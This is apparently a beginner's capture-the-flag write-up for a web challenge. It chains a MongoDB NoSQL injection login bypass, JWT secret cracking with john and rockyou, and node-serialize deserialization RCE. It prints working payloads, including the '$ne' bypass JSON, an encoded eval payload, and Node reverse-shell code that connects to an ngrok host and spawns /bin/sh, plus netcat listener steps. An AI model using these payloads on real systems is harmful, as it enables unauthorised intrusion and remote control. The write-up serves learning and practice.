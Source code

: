 # Description

Hello and welcome everyone to my WriteUp for the "Breakfast with Grandma" Challenge By the author @j3x for the event HACK TILL S'HOUR (Or PWN TILL S'HOUR for this year) Held By The Club of @Shellmates
I'd just just to point out that this is my first ever doing a WriteUp for a CTF challenge and since i'm kinda a new/noobie in this the CTF game So if it is too long or smth like that i apologize from now since i'm trying not only to write The Solution but as well as the thinking procedure that lead us to the Flag , So let's Go : 

### NoSQL injection
1. We Are Faced with a login page as shown in the Following image : 

![alt text](login.png)
![alt text](JSON-Credits.png)

After following around a bit with the debugger and Burp Suite we can see that the response that contains the credentials inputted in the form is returned through JSON Format (here i said it's definitely a NoSQL Injection since they are who use JSON , i did some testing to confirm is was node with Mongo in burp like this : )


![alt text](Node-error.png)

### So what is a `NoSQL` injection ?

NoSQL injection is a security weakness in a web application that uses a NoSQL database, can allow attackers to bypass authentication, exfiltrate sensitive data, tamper with data on the database, or even compromise the database and the underlying server Most NoSQL injection vulnerabilities occur because developers accept and process user inputs without properly sanitizing them

### We go back to our challenge

First i tried with admin credits Injection like this : {"username":"admin","password":{"$ne": "x"}} Work 
then i changes it to this and we have a successful login (ofc we use Burp to send the request , u can also use ZAP or cURL but this is more simple ): 
{"username":{"$ne": "x"},"password":{"$ne": "x"}} 

![alt text](Payload-NoSQLi.png)

![alt text](SuccessLogin-Dashboard.png)

Once Logged In we don't have much to See and since the description Talked about cookies then it's probably a good idea to check them in the Storage Tab using developper tools (CTRL SHIFT C , or just right click and select it ) 
We then find a JWT Token let's decrypt it using JWT.io : We Find an used ID , iat (expiration time or smth lmao ) and an also an encodedData which contains a Base64 Coded Text : 
{
  "userId": "********************",
  "encodedData": "eyJ1c2VybmFtZSI6ImJvYmJ5IiwiYWdlIjo0LCJmYXZvdXJpdGVNZWFsIjoiQ2VyZWFscyIsIl8ybmRGYXZNZWFsIjoiQ29va2llcyJ9",
  "iat": 1712537034
}
decode it using base64 -d command in terminal (or just use a tool like CyberChef ) we find it's the same data showed in the dashboard 
{"username":"bobby","age":4,"favouriteMeal":"Cereals","_2ndFavMeal":"Cookies"}

Let's Find the JWT Signature password using our friend john (a tool to brute force passwords ) like this : 
john token.txt -w=/usr/share/wordlists/rockyou.txt (make sure to put ur JWT token in the txt file correctly : no spaces or anything else cause it may cause problems and not be found ) 
"""
$ john token.txt -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
shellmatexx      (?)     
1g 0:00:00:01 DONE (2024-04-08 01:52) 0.8928g/s 3408Kp/s 3408Kc/s 3408KC/s shikoni..sheenyboy1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
"""
The password is found : shellmatexx , this is gonna allow us to change the jwt as we which (only the base64 part , since the other ones are used for the session)

here we are bit stuck ig? let's take a look at the source code , after some good search we find a serialization/deserialization code , let's ask ChatGPT if it's vulnerable to RCE (Remote Code Execution ) , The answer Is YES 
Now we look for ready to use exploits for this case : i first found one which is the most commun/basic one let's test it : 
Source : https://www.exploit-db.com/exploits/45265
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
 let's take the rce field and place it in our JSON format in place of one of the fields and the encode this : 
 

{"username":"bobby","age":4,"favouriteMeal":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()","_2ndFavMeal":"Cookies"}

BAse64 : 
eyJ1c2VybmFtZSI6ImJvYmJ5IiwiYWdlIjo0LCJmYXZvdXJpdGVNZWFsIjoiXyQkTkRfRlVOQyQkX2Z1bmN0aW9uICgpe3JlcXVpcmUoXCdjaGlsZF9wcm9jZXNzXCcpLmV4ZWMoXCdscyAvXCcsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pO30oKSIsIl8ybmRGYXZNZWFsIjoiQ29va2llcyJ9Cg==

and send it in out JWT token bu using Cyber Chef to encode it (dont forget the secret word )

![alt text](Encode-First-RCE-JWT.png)

This didnt work :

![alt text](First-RCE-Not-Working.png)

lets look for something else, after some digging up this article looked intresting as it had some resemblance to our challenge :
https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

This Used some advance a bit technique to achieve Reverse Shell Using Eval 
{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}

// CODE USED FOR THE REVERSE SHELL 

var net = require('net');
var spawn = require('child_process').spawn;
HOST="3.125.188.168"; // ngrok provided public IP ADD
PORT="14447";  // ngrok provided public PORT 
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);

This what we are gonna do : 
1-Encode the past code to Decimal (with comma as a seperator ) then put it inside the eval
2-put the eval and rest of the code in out Data's JSON format 
3-Following that we encode The Data's JSON To base64 and 
4-And last but not least put that in the JWT Token
Change the IP and Port (Use Ngrok for a public one and then forward it to your terminal )
in terminal : Sudo ngrok tcp 4444
in another terminal window : nc -lvp 4444
(for more details check this article : https://drxh3kr.medium.com/using-netcat-with-ngrok-ip-for-receiving-reverse-shell-25ba7a498aab)
and voila we have Reverse Shell : 
look around a bit and we find the flag in the root directory (/) and there u have it 


CAPTURE SHELLL ![alt text](Ngrok-RV-Flag.png)


Note : This was an Amazing and creative challenge for me , GG to the Author 


